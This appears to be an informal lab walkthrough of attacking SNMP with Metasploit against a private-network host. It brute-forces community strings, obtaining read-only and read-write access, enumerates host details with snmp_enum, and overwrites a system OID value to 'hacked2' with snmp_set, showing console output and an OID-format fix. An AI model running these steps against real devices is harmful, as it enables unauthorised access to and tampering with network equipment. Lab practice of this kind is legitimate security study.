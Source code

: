 ```
msf6 auxiliary(scanner/snmp/snmp_login) > run

[!] No active DB -- Credential data will not be saved!
[+] 192.168.0.110:161 - Login Successful: test2 (Access level: read-write); Proof (sysDescr.0): Vyatta VC6.5R1
[+] 192.168.0.110:161 - Login Successful: test (Access level: read-only); Proof (sysDescr.0): Vyatta VC6.5R1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

we got two strings 
```
test - read-only access
test2 - read-write access
```

lets try for **snmp_enum**
this is post exploitation module
u need to know community string for this
set options
```
setg RHOSTS 192.168.0.110
set COMMUNITY test
run
```
now run the module
you will get the all information about host

metasploit also have snmp_set to change the OID values
```
set COMMUNITY test2
set OID oid
set OIDVALUE hackedagain
run
```

we get error because **iso** is not recognised by metasploit 
```
msf6 auxiliary(scanner/snmp/snmp_set) > set OID iso.3.6.1.2.1.1.6.0
OID => iso.3.6.1.2.1.1.6.0
msf6 auxiliary(scanner/snmp/snmp_set) > set OIDVALUE hacked2
OIDVALUE => hacked2
msf6 auxiliary(scanner/snmp/snmp_set) > run

[*] Try to connect to 192.168.0.110...
[-] 192.168.0.110 Error: ArgumentError ["iso", "3", "6", "1", "2", "1", "1", "6", "0"]:Array not a valid object ID ["/usr/share/metasploit-framework/lib/snmp/varbind.rb:161:in `rescue in initialize'", "/usr/share/metasploit-framework/lib/snmp/varbind.rb:152:in `initialize'", "/usr/share/metasploit-framework/lib/snmp/mib.rb:243:in `new'", "/usr/share/metasploit-framework/lib/snmp/mib.rb:243:in `parse_oid'", "/usr/share/metasploit-framework/lib/snmp/mib.rb:218:in `oid'", "/usr/share/metasploit-framework/lib/snmp/mib.rb:167:in `varbind_list'", "/usr/share/metasploit-framework/lib/snmp/manager.rb:239:in `get'", "/usr/share/metasploit-framework/lib/snmp/manager.rb:262:in `get_value'", "/usr/share/metasploit-framework/modules/auxiliary/scanner/snmp/snmp_set.rb:48:in `run_host'", "/usr/share/metasploit-framework/lib/msf/core/auxiliary/scanner.rb:120:in `block (2 levels) in run'", "/usr/share/metasploit-framework/lib/msf/core/thread_manager.rb:105:in `block in spawn'"]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
we need to translate that OID 
we can use tool called **snmptranslate**
```
$ snmptranslate -On iso.3.6.1.2.1.1.6.0
.1.3.6.1.2.1.1.6.0
```
-On stands for output numerically